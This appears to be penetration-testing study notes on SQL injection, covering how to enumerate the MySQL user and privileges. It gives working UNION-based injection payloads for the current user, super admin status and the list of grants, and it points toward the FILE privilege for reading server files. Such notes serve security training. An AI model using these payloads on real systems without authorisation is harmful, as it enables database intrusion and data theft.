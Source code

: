 # User Privs
### DB User
First, we have to _determine which user we are within the database_. After that, we have to check our privileges to see what we can do. To be able to find our current DB user, we can use any of the following queries:
```sql
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
Our UNION injection payload will be as follows:
```
__Our UNION injection payload will be as follows:__
```sql
X' UNION SELECT 1, user(), 3, 4-- -
```
or:
```sql
X' UNION SELECT 1, user, 3, 4 from mysql.user-- -
```
> Which tells us our current user, which in this case is root:


<p align="center">
  <img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/f3b1f81b-d8cb-4153-837a-eed602bc4bee" width="600" alt="Sublime's custom image"/>
</p>

This is very promising, as a root user is likely to be a DBA, which gives us many privileges.

### User prileges.
Now that we know our user, we can __start looking for what privileges we have with that user__. 

#### Super admin privileges.
First of all, we can test if we have super admin privileges with the following query:
```sql
SELECT super_priv FROM mysql.user
```
Once again, we can use the following payload with the above query:
```sql
X' UNION SELECT 1, 2, super_priv, 4 FROM mysql.user -- -
```
If we had many users within the DBMS, we can add WHERE user="root" to only show privileges for our current user root:
```sql
X' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
```
<p align="center">
  <img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/d2055c73-a41f-48f6-bb8b-c619a424e098" width="600" alt="Sublime's custom image"/>
</p>

> The query returns `Y`, which __means YES, indicating superuser privileges__.

#### Dumping all user privileges.
We can also dump other privileges we have directly from the schema, with the following query:
```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
```
From here, we can add WHERE grantee="'root'@'localhost'" to only show our current user root privileges. Our payload would be:
```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```
> And we see all of the possible privileges given to our current user: 

<p align="center">
  <img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/89debdf6-abd0-44d7-b4e8-b30f6f95a88c" width="500" alt="Sublime's custom image"/>
</p>

> __We see that the `FILE` privilege is listed for our user__, __enabling us to read files and potentially even write files__. Thus, we can proceed with attempting to [read files](#reading-os-files).
